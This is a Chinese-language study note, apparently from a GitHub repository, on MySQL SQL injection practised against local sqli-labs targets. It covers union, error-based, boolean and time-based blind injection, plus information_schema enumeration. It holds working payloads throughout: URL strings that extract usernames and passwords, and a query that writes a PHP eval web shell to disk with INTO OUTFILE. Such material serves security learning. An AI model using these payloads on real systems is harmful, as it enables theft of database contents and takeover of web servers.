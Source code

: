 # sql注入
通过传入特定的参数，打破原有的sql语句结构
# sql注入上传文件,把select后面的结果保存到文件
```
select "",<?php eval($_REQUEST[666])?>  into outfile "d:/1.txt"   
```
# 注入步骤
## 	1.探测注入点
and 1=1    或    and 1=2     如果结果一样就是没执行
' 或 "    '如果报错，说明有注入点
##	2.确定注入点是否真的存在
and 1=1  或 and 1=2  如果1=1有结果，1=2没有结果就证明注入点存在
'' LIMIT 0,1'，去掉两边的单引号，
## 3.注入手法
### 联合查询
### 优点，简单，速度快
### 缺点，必须要有回显。
union 用来连接多个查询语句，要求查询语句的字段数一样
1.探测注入点
2.确定sql语句有多少字段
```
order by 1   按照第一个字段排序，成功就最少有一个字段
order by 5   按照第5个字段排序，成功就最少有5个字段，出错就说明没有第五个字段
select 1，2
```   
### 3.调数据
```
当前数据库名  select database();  
当前登录用户	select user();    或者  select current_user();
数据库安装路径     select  @@baseDir;
数据库路径	   select  @@datadir
数据库版本	   select  @@version;
web主目录	   select  @@dataDir；  
5.0以上版本的mysql有information_schema 数据库，里面有整个mysql的所有信息
schemata表的schema_name字段有mysql中所有数据库的名
concat（1，2，3） 把1，2，3拼接到一块，如果1，2，3是字段就把字段拼接到一块
group_concat(字段名)    把查询的数据拼接成一行。
substr（字符串，开始位置，个数）字符串截取函数，从第几个开始，截取几个
```

### 查当前数据库服务器所有数据库
```									
union select schema_name from information_schema.schemata limit 0,1 --  //limit 是从第几条开始，显示几条，LIMIT 5,10; //检索记录行6-15
```
### 查表
```
union select table_name from information_schema.tables where table_schema ='库名' --
```
### 查字段
```
union select column_name from information_schema.columns where table_schema='库名' and table_name='表名' --
```
## 报错注入
### 优点，不需要回显
### 缺点，需要有报错信息，指的是数据库报错信息，速度较快
floor(4.5)   结果4，进一
```
http://localhost/php/2.php?id=3 and(select 1 from(select count(*),
concat((select (select (select concat(0x7e,user(),0x7e)))
from information_schema.tables limit 0,1),floor(rand(0)*2))
x from information_schema.tables group by x)a)  #暴用户名；
http://localhost/sqli/Less-5/?id=1' and (select 1 from (select count(*),
concat((select concat(username,password) from security.users limit 0,1),
floor(rand(0)*2))x from information_schema.tables group by x)a) --+ 爆数据
payload		and (select 1 from (select count(*),concat((payload),floor(rand(0)*2))x frominformation_schema.tables group by x)a)
payload		and extractvalue(1, payload)  注：输出字符有长度限制，最长32位and extractvalue(1, concat(0x7e,@@version,0x7e))
http://localhost/php/2.php?id=1 and extractvalue(1,concat(0x7e,(select database()),0x7e)) #暴数据库
http://localhost/sqli/Less-5/?id=1%27%20and%20extractvalue(1,concat(0x7e,(select%20concat(username,0x7e,password)%20from%20security.users%20limit%200,1),0x7e))%20--+   爆数据
payload		and updatexml(1,payload,1)  注：输出字符有长度限制，最长32位
and updatexml(1,concat(0x7e,@@version,0x7e),1)
and updatexml(1,concat(0x7e,(select @@version),0x7e),1)%20--+
```


## 布尔注入
### 优点，不需要回显
### 缺点，速度慢,需要查询语句有正常执行和不正常执行
```
length（"123456"）  结果6
ord （）= ascii（）  ASCII码
```			
确定数据库名称长度是否大于5
```
length（database()）>5 --
```
取数据库第一个字符的ascII码,是不是大于80
```
ascII(substr(database(),1,1))>80
```
## 延时 ,靠数据返回的时间判断数据是否正确
### 优点：不需要显示位，不需要报错信息，不需要查询正常不正常返回不一样
### 缺点：速度太慢，受网络波动影响较大
```
select sleep（5）   一条数据5秒之后显示查询结果
if（a,b,c）		a执行成功执行b,不成功执行c
```
```
http://localhost/sqli/Less-10/?id=1" and if(ascii(substr(database(), 1, 1))>104, sleep(5), 1) --%20  爆库
```


# 总结：
	注入参数位置：任何可以由客户端控制的传递给服务端的参数都有可能发生sql注入
```
select
updata
delete
insert
```
sql注入   数据拖库 控制服务器
information_schema   元数据数据库
## 所有的库名	SCHEMATA
```
SHCEMA_NAME字段所有的数据库名
```
## 所有的表名	tables
```
table_schema当前表所属库的名字
table_name 当前表名
```
## 所有的字段名	columns
```
table_schema 字段所属的库名
table_name 字段所属的表名
column_name字段名				
```
## 查看数据库配置文件的secure_file_priv的属性值，为空则可以写入文件,需要php.ini 中display_errors=On开启PHP错误回显,显示报错信息
```
show variables like '%secure_file_priv'
```   
